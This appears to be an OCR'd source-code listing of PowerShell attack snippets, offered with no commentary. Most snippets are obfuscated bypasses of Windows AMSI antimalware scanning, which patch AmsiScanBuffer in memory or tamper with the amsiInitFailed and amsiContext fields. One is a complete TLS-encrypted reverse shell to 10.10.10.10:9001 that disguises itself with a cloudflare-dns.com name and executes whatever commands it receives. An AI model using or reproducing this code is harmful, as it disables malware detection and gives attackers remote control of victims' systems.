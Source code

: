 $c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)

==============================================================================================================================

$x=51;$a=[Ref].Assembly;$y=$x*1000;$b=$a.GetTypes();$z=$y-32;$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like '*siUt*'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};};$x=$z;$e=$c.GetFields('NonPublic,Static');$y=$x-2;$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like '*siCo*'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};};$z=324;$h=$g.GetValue($null);$x=$y-2;[IntPtr]$i=$h;$z=$x+2;[Int32[]]$j=@(0);$y=$z;[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1);

==============================================================================================================================

$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('10.10.10.10', 9001);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = New-Object System.Byte[] 4096 ;$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

==============================================================================================================================

$x=51
$a=[Ref].Assembly
$y=$x*1000
$b=$a.GetTypes()
$z=$y-32
$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like 'siUt'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};}
$x=$z
$e=$c.GetFields('NonPublic,Static')
$y=$x-2
$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like 'siCo'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};}
$z=324
$h=$g.GetValue($null)
$x=$y-2
[IntPtr]$i=$h
$z=$x+2
[Int32[]]$j=@(0)
$y=$z
[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1)

